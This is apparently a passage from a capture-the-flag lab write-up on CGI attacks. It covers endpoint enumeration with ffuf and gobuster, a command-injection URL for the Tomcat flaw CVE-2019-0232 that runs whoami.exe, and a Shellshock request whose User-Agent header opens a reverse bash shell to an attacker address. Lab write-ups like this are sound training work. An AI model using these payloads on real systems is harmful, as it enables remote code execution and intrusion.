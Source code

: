 This version is potentially vulnerable to `CVE-2019-0232`. If the `enableCmdLineArguments` feature enabled, RCE is possible. 

Now, we enumerate potential vulnerable endpoints:

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat
```

We obtain ẁelcome. Now we can trigger the RCE: http://10.129.205.30:8080/cgi/welcome.bat?&dir

![](img/cgi.png)

Now, 

```
http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

Results: feldspar\omen


**Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.**

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.27/cgi-bin/FUZZ.cgi
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Output:  /access.cgi 

Now we can do via curl o via Burpsuite:

```
GET /cgi-bin/access.cgi HTTP/1.1
Host: 10.129.205.27
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.78/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 12 Oct 2020 09:32:54 GMT
If-None-Match: "2aa6-5b175fba24dbe-gzip"
```
